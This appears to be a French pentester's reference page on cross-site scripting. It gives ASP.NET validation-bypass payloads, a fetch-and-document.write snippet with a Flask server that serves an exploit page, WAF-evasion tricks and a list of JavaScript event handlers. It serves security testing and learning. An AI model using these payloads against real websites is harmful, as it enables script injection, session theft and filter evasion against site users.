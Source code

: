 ```yaml
---
title: Cross Site Scripting
permalink: /XSS/
---
```


# Cross-Site Scripting

## Payloads

Voir [PayloadAllTheThings](https://github.com/ruuand/PayloadsAllTheThings/tree/master/XSS%20injection)

## ASP.Net
ASP.Net a le mécanisme de "Request Validation" qui bloque de nombreuses tentatives XSS. Globalement tout payload de la forme "<a" (où a est une lettre ou le caractère ! sera bloqué).

Quelques bypass sont possibles:
- Sur les vieilles versions d'IE le payload <#tag
- Si on a une stored il est possible d'injecter un payload en unicode (voir [Bypassing ASP.NET “ValidateRequest” for Stored XSS attacks](https://infosecauditor.wordpress.com/2013/05/27/bypassing-asp-net-validaterequest-for-script-injection-attacks/)). Ceci est dû à une conversion qui est faite par la base de données (les caractères unicodes étant convertis en leur équivalent "standard"): 
``%uff1cscript%uff1ealert('XSS');%uff1c/script%uff1e``
- Sur les vieilles versions de IE et de ASP.net (patch en 2007) le payload suivant marche: ```</XSS STYLE=xss:expression(alert('XSS'))>```

D'autres bypass [Bypassing .Net ValidateRequest](http://www.procheckup.com/media/39734/bypassing-dot-net-validaterequest.pdf)

## Champs hidden

Il est possbible d'exploiter une XSS dans un champ hidden. Voir [XSS in Hidden Input Fields](http://blog.portswigger.net/2015/11/xss-in-hidden-input-fields.html)

## Charger un script distant
Basé sur [Calling remote script with event handlers](https://brutelogic.com.br/blog/calling-remote-script-with-event-handlers/).

``` javascript
// Avec la méthode fetch
fetch('http://127.0.0.1:5000/').then(function(r){return r.text();}).then(function(w){document.write(w)});
// Avec appendChild et createElement
document.body.appendChild(document.createElement('script')).text = 'alert(123)';
```

Côté serveur (avec flask):

``` python
from flask import Flask, Response
app = Flask(__name__)

@app.route('/')
def root():
    f = open('exploit.html','r')
    response = Response(f.read())
    response.headers['Access-Control-Allow-Origin'] = '*'
    f.close()
    return response
```


## Contournement de WAF

Quelques astuces pour contourner des WAF:

```
a = document; a.write('Test'); // Contourne des restrictions sur document.write*
(a = document); a.write('Test') // Contourne des restrictions sur le ";"
```

## Events JS

Liste d'events JS:

``` text
onAbort
onActivate
onAfterPrint
onAfterUpdate
onBeforeActivate
onBeforeCopy
onBeforeCut
onBeforeDeactivate
onBeforeEditFocus
onBeforePaste
onBeforePrint
onBeforeUnload
onBeforeUpdate
onBegin
onBlur
onBounce
onCellChange
onChange
onClick
onContextMenu
onControlSelect
onCopy
onCut
onDataAvailable
onDataSetChanged
onDataSetComplete
onDblClick
onDeactivate
onDrag
onDragEnd
onDragLeave
onDragEnter
onDragOver
onDragDrop
onDragStart
onDrop
onEnd
onError
onErrorUpdate
onFilterChange
onFinish
onFocus
onFocusIn
onFocusOut
onHashChange
onHelp
onInput
onKeyDown
onKeyPress
onKeyUp
onLayoutComplete
onLoad
onLoseCapture
onMediaComplete
onMediaError
onMessage
onMouseDown
onMouseEnter
onMouseLeave
onMouseMove
onMouseOut
onMouseOver
onMouseUp
onMouseWheel
onMove
onMoveEnd
onMoveStart
onOffline
onOnline
onOutOfSync
onPaste
onPause
onPopState
onProgress
onPropertyChange
onReadyStateChange
onRedo
onRepeat
onReset
onResize
onResizeEnd
onResizeStart
onResume
onReverse
onRowsEnter
onRowExit
onRowDelete
onRowInserted
onScroll
onSeek
onSelect
onSelectionChange
onSelectStart
onStart
onStop
onStorage
onSyncRestored
onSubmit
onTimeError
onTrackChange
onUndo
onUnload
onURLFlip
seekSegmentTime
```

## Références
- [JSFuck](http://www.jsfuck.com/)
- [Master the art of Cross Site Scripting](https://brutelogic.com.br/blog/)
- [XSS without event handlers](https://brutelogic.com.br/blog/xss-without-event-handlers/): pour les situations où les events du type onerror sont bloqués
- [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
- [PassiveXssScan](https://github.com/jkadijk/burp-plugins): un plugin pour identifier automatiquement les éléments "reflected" dans Burp.
- [HTML5sec](https://html5sec.org/)
- [Calling remote script with event handlers](https://brutelogic.com.br/blog/calling-remote-script-with-event-handlers/)

### Challenges
- [FindBUG XSS Challenge](http://blog.bi.tk/2017/01/20/findbug/)

